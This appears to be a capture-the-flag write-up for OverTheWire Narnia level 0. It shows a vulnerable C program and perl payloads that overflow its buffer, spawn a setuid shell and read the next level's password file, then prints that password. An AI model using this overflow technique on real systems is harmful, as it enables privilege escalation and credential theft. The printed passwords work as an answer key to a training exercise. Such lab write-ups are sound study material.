


# Level 0 → Level 1

## Solution
```
ssh narnia0@narnia.labs.overthewire.org -p 2226
```
```
narnia0
```
```
cd /narnia ; ls -al
```
```
cat narnia0.c
```
The printed file is shown below:
```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
   */
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Very easy.<br />
All you have to do is insert any 20 characters and then the characters 0xdeadbeef (lettle endian)

```
perl -e 'print "A"x19, "\x00", "\xef\xbe\xad\xde\x00";' | ./narnia0
```



"WAY OFF!!!!" is not printed, but `sh` doesn't open for me either. The question is why `system("/bin/sh")` did not open the shell for me.

I was looking for questions people were asking and I came across [this](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process). The question in the title answered the "why didn't the shell open" - because **pipe** was involved in the process of entering the input. Further reading I also realized that in addition to the previous input, I can insert the input for the shell. and hence:

```
(perl -e 'print "A"x19, "\x00", "\xef\xbe\xad\xde"' ; echo "cat /etc/narnia_pass/narnia1") | ./narnia0
```



## Password for the next level:
```
eaa6AjYMBB
```
